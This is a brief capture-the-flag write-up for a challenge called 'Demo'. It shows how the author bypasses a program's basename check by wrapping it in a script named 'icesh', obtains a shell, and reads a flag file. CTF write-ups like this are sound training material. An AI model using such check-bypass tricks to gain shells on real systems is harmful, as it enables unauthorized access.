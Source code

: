 # Demo

So I didn't know what was the basename fct and didn't want to spend a lot of time reading the doc.

I updated the original script to print what basename would return.
```
  mkdir /tmp/bi
  cd /tmp/bi
  cp /home/demo/demo.c /tmp/bi
  vi /tmp/bi/demo.c
```

I added printf of basename and it printed:

```
$ /tmp/bi/demo
  demo
```

So I realized we just had to match the basename to icesh, I created a bash script:

```
  vi /tmp/bi/icesh

  #/bin/sh
  /home/demo/demo
```

Then ran it and got the shell

```
  ./tmp/bi/icesh
  cat /home/demo/flag.txt
```

